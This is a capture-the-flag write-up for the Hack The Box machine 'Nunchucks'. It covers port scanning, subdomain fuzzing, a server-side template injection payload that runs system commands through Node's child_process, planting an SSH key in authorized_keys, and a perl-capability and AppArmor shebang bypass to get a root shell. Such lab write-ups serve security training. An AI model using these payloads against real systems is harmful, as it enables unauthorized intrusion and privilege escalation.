# [Nunchucks](https://app.hackthebox.com/machines/Nunchucks/)

```bash
nmap -p- --min-rate 10000 10.10.11.122 -Pn  
```



After detection of open ports, let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p22,80,443 10.10.11.122 -Pn 
```



I see that `nonchucks.htb` domain name should be added into `/etc/hosts` file.


Our application is like that.




Let's do subdomain enumeration via `wfuzz` tool.
```bash
wfuzz -H "Host: FUZZ.nunchucks.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 30587 https://nunchucks.htb 
```




I found `store.nunchucks.htb` subdomain, let's add this into `/etc/hosts` file also.


Now, I will try to do `SSTI` (Server-Side Template Injection) attack by adding payload `{{7*7}}` which then executed via `eval` method of backend.




Here's, we can see real output of '7*7', it means we can add system command to execute on web application by using native template syntax.


**Note:** But I need to add backslash (\) to escape (") characters.

```bash
{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')\")()}}
```

Now, I can read `/etc/passwd` file.




Let's add our public key into machine.

1.First, we need to create `.ssh` folder for `david` user.
```bash
mkdir /home/david/.ssh
```



2.Then paste our public key (id_rsa.pub) into machine.
```bash
echo "public_Key" > /home/david/.ssh/authorized_keys
```




Now, we can login our private key (id_rsa) file by using `ssh` command.

```bash
ssh -i /root/.ssh/id_rsa david@nunchucks.htb

```


user.txt




For privilege escalation, let's see capabilities `getcap -r / 2>/dev/null`.




I see that `perl` binary has privilege can be attack vector for privilege escalation.

I looked at this on [Gtfobins](https://gtfobins.github.io/gtfobins/perl/#capabilities).


I did this, but it doesn't work.

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```




Let's try execute command.

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "whoami";'
```



Maybe this prohibited due to `AppArmor`. This is used for `Mandatory Access Control`, let's look at bypass tricks on this [blog](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/apparmor#apparmor-shebang-bypass)


I did below commands.

```bash
echo '#!/usr/bin/perl
use POSIX qw(strftime);
use POSIX qw(setuid);
POSIX::setuid(0);
exec "/bin/sh"' > /tmp/test.pl
chmod +x /tmp/test.pl
/tmp/test.pl
```


root.txt

